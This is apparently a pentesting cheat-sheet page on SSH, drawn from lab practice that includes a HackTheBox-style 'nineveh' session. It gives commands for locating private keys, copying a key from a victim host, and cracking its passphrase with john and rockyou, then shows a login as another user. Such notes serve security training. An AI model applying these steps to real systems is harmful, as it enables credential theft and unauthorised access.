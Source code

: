 # (22) SSH

<details>

<summary>Finding SSH Private Keys</summary>

```bash
/home/user/.ssh/id_rsa
```

```
find /home/ -name "id_rsa"
```

</details>

<details>

<summary>SSH with Private Key</summary>

```
ssh -i svuser.key svuser@controller
```

</details>

<details>

<summary>How to tell if a key is encrypted with passphrase?</summary>

![](<../.gitbook/assets/image (300).png>)

</details>

<details>

<summary>Cracking passphrase of SSH key</summary>

<pre><code><strong>#Copy file over to Kali
</strong><strong>scp root@linuxvictim:/home/linuxvictim/svuser.key .
</strong>/usr/share/john/ssh2john.py svuser.key > svuser.hash
john --wordlist=/usr/share/wordlists/rockyou.txt svuser.hash
</code></pre>

</details>

<details>

<summary>SSH from localhost to localhost</summary>

* Useful if SSH port is not opened to external IP

```bash
www-data@nineveh:/dev/shm$ chmod 600 nineveh.priv 
www-data@nineveh:/dev/shm$ ssh -i nineveh.priv amrois@127.0.0.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Wed May 10 08:01:22 2023 from 10.10.14.2
amrois@nineveh:~$ whoami
amrois
```

</details>

<pre><code><strong>scp root@linuxvictim:/home/linuxvictim/svuser.key .
</strong>/usr/share/john/ssh2john.py svuser.key > svuser.hash
john --wordlist=/usr/share/wordlists/rockyou.txt svuser.hash
</code></pre>



